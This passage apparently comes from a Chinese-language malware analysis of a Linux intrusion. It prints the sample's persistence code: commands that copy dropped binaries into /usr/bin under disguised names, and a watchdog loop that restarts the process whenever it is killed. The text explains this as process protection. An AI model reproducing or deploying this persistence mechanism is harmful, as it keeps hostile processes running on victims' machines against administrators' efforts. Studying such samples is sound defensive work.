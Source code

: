 ```

cp sysxlj /usr/bin/aher

cp jourxlv /usr/bin/keudl
```

下面的作用应该是做了进程守护，如果发现本脚本以及sysxlj进程被结束，就从/usr/bin下拷贝回来，并重新运行。

```
while [ 1 ]; do

    Centos_sshd_killn=$(ps aux | grep "$host_dir/sysxlj" | grep -v grep | wc -l)

    if [[ $Centos_sshd_killn -eq 0 ]]; then

        if [ ! -f "$host_dir/sysxlj" ]; then

            if [ -f "/usr/bin/aher" ]; then

                cp /usr/bin/aher $host_dir/sysxlj

                chmod 755 ./sysxlj

            else

                echo "No weeget"

            fi

        fi

        ./sysxlj &amp;

    elif [[ $Centos_sshd_killn -gt 1 ]]; then

        for killed in $(ps aux | grep "$host_dir/sysxlj" | grep -v grep | awk '`{`print $2`}`'); do

            Centos_sshd_killn=$(($Centos_sshd_killn-1))

            if [[ $Centos_sshd_killn -eq 1 ]]; then

                continue

            else

                kill -9 $killed

            fi

        done

    else

        echo ""

    fi
```
